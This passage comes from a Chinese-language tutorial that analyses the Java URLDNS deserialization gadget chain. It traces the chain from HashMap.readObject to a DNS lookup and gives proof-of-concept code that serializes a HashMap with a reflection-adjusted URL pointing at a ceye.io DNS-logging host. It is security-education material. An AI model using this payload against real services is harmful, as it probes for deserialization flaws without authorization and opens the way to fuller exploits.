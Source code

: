 可以发现对内容进行了`getHostAddress`方法处理，继续跟进

[![](assets/1705890694-0c468692c4d22abba2a154df8bb6604c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120103343-54455c26-b73c-1.png)

根据主机名获取其IP地址，也就是对其发送了一次DNS请求。

至此，可以看出总体链如下

```plain
1、HashMap->readObject()
2、HashMap->hash()
3、URL->hashCode()
4、URLStreamHandler->hashCode()
5、URLStreamHandler->getHostAddress()
```

接下来构造Poc进行DNS请求尝试。

```plain
HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();   
hashmap.put(new URL("http://s3moz8.ceye.io"),1);

serialize(hashmap);
```

此时运行会发现，我们还没进行反序列化，在此时就直接收到DNS请求了，这是为啥呢，仔细看一下代码，会发现

```plain
PUT->hash->hashCode()
```

而URL类中的`hashCode`默认值为-1，此时到这里就会直接往下运行，也就是对URL发起了DNS请求。

这样的话我们就无法判断是反序列化出来的URLDNS，还是序列化中的URLDNS，造成了干扰，此时我们该怎么办呢，我们可以看到这里的源头是因为**put()**，所以我们可以先不发送请求

```plain
#Serialization.java
package org.example;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class Serialization {
    public static void Serialize(Object obj) throws IOException{
        ObjectOutputStream oos= new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static void main(String[] args) throws Exception{
        HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();
        URL url = new URL("http://s3moz8.ceye.io");
        Class c = url.getClass();
        Field hashcodefile = c.getDeclaredField("hashCode");
        hashcodefile.setAccessible(true);
        hashcodefile.set(url,1234);
        hashmap.put(url,1);
// 这里把 hashCode 改为 -1； 通过反射的技术改变已有对象的属性
        hashcodefile.set(url,-1);
        Serialize(hashmap);
    }
}
```